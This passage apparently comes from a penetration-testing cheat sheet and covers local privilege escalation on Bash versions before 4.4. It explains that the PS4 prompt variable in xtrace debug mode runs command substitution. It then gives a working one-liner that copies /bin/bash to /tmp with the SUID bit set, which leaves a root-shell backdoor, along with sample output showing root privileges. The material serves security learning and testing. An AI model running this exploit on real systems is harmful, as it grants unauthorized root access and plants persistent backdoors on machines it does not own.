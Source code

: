 ### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
